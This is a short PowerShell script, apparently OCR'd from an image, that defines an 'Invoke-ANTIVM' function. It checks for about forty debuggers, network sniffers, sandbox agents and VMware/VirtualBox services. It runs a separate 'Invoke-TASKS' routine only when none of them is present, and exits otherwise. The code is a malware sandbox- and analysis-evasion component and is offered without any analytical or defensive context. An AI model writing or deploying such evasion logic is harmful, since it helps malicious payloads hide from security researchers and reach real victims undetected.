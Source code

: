 function Invoke-ANTIVM {

 function antivm
 {
   "autoruns"
   "autorunsc"
   "dumpcap"
   "Fiddler"
   "fakenet"
   "HookExplorer"
   "ImmunityDebugger"
   "httpdebugger"
   "ImportREC"
   "LordPE"
   "PETools"
   "ProcessHacker"
   "ResourceHacker"
   "Scylla_x64"
   "sandman"
   "SysInspector"
   "tcpview"
   "die"
   "dumpcap"
   "filemon"
   "idaq"
   "idaq64"
   "joeboxcontrol"
   "joeboxserver"
   "ollydbg"
   "proc_analyzer"
   "procexp"
   "procmon"
   "regmon"
   "sniff_hit"
   "sysAnalyzer"
   "tcpview"
   "windbg"
   "Wireshark"
   "x32dbg"
   "x64dbg"
   "Vmwareuser"
   "Vmacthlp"
   "vboxservice"
   "vboxtray"
 }
$processnames = antivm
if(($processnames | ForEach-Object {Get-Process -Name $_ -ea SilentlyContinue}) -eq $null){ 
   Invoke-TASKS  
}
else{ 
  exit
}
}
